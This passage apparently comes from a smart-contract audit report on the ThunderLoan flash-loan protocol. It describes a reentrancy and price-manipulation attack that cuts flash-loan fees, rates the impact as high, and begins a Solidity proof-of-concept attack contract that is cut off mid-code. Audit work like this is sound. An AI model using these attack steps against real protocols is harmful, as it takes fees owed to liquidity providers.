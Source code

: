 1. Calling `flashloan()` with a sufficiently small value for `amount`
2. Reenter the contract and perform the price oracle manipulation by sending liquidity to the pool during the `executionOperation` callback
3. Re-calling `flashloan()` this time with a large value for `amount` but now the `fee` will be minimal, regardless of the size of the loan.
4. Returning the second and the first loans and withdrawing their liquidity from the pool ensuring that they only paid two, small `fees for an arbitrarily large loan.

## Impact

An attacker can reenter the contract and take a reduced-fee flash loan. Since the attacker is required to either:

1. Take out a flash loan to pay for the price manipulation: This is not financially beneficial unless the amount of tokens required to manipulate the price is less than the reduced fee loan. Enough that the initial fee they pay is less than the reduced fee paid by an amount equal to the reduced fee price.
2. Already owning enough funds to be able to manipulate the price: This is financially beneficial since the initial loan only needs to be minimally small.

The first option isn't financially beneficial in most circumstances and the second option is likely, especially for lower liquidity pools which are easier to manipulate due to lower capital requirements. Therefore, the impact is high since the liquidity providers should be earning fees proportional to the amount of tokens loaned. Hence, this is a high-severity finding.

## Proof of concept

### Working test case

The attacking contract implements an `executeOperation` function which, when called via the `ThunderLoan` contract, will perform the following sequence of function calls:

- Calls the mock pool contract to set the price (simulating manipulating the price)
- Repay the initial loan
- Re-calls `flashloan`, taking a large loan now with a reduced fee
- Repay second loan

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver, IThunderLoan } from "../../src/interfaces/IFlashLoanReceiver.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { MockTSwapPool } from "./MockTSwapPool.sol";
import { ThunderLoan } from "../../src/protocol/ThunderLoan.sol";

contract AttackFlashLoanReceiver {
    error AttackFlashLoanReceiver__onlyOwner();
    error AttackFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    uint256 public attackAmount = 1e20;
    uint256 public attackFee1;
    uint256 public attackFee2;
    address tSwapPool;
    IERC20 tokenA;
```